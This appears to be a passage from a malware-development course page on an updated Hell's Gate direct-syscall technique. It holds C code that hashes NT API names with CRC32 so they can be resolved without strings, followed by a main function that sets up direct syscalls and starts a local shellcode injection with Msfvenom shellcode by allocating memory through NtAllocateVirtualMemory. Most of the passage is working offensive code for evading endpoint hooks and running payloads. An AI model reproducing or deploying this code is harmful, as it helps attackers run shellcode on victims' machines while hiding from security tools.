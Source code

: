 ```c
    crc = 0xFFFFFFFF;
    while ((byte = message[i]) != 0) {    // Get next byte.
        crc = crc ^ byte;
        c = ((crc << 31 >> 31) & g7) ^ ((crc << 30 >> 31) & g6) ^
            ((crc << 29 >> 31) & g5) ^ ((crc << 28 >> 31) & g4) ^
            ((crc << 27 >> 31) & g3) ^ ((crc << 26 >> 31) & g2) ^
            ((crc << 25 >> 31) & g1) ^ ((crc << 24 >> 31) & g0);
        crc = ((unsigned)crc >> 8) ^ c;
        i = i + 1;
    }
    return ~crc;
}

#define HASH(API) crc32h((char*)API)


int main() {

    printf("#define %s%s \t 0x%0.8X \n", "NtAllocateVirtualMemory", STR, HASH("NtAllocateVirtualMemory"));
    printf("#define %s%s \t 0x%0.8X \n", "NtProtectVirtualMemory", STR, HASH("NtProtectVirtualMemory"));
    printf("#define %s%s \t 0x%0.8X \n", "NtCreateThreadEx", STR, HASH("NtCreateThreadEx"));
    printf("#define %s%s \t 0x%0.8X \n", "NtWaitForSingleObject", STR, HASH("NtWaitForSingleObject"));
}

```

![image](https://maldevacademy.s3.amazonaws.com/images/Advanced/hellsgate-update-719008069-88be2bdc-b34e-4a9b-a338-91df90cd51a2.png)

#### Main Function

The `InitializeNtSyscalls` function is called first, followed by syscalls to perform a local code injection using Msfvenom's shellcode. The call to the syscalls is done using the `SetSSn` and `RunSyscall` assembly functions previously described.

```c

int main() {

	NTSTATUS	STATUS		= NULL;
	PVOID		pAddress	= NULL;
	SIZE_T		sSize		= sizeof(Payload);
	DWORD		dwOld		= NULL;
	HANDLE		hProcess	= (HANDLE)-1,	// local process
			    hThread		= NULL;


	// initializing the used syscalls
	if (!InitializeNtSyscalls()) {
		printf("[!] Failed To Initialize The Specified Direct-Syscalls \n");
		return -1;
	}


	// allocating memory
	SetSSn(g_Nt.NtAllocateVirtualMemory.dwSSn);
	if ((STATUS = RunSyscall(hProcess, &pAddress, 0, &sSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)) != 0x00 || pAddress == NULL) {
		printf("[!] NtAllocateVirtualMemory Failed With Error: 0x%0.8X \n", STATUS);
		return -1;
	}

```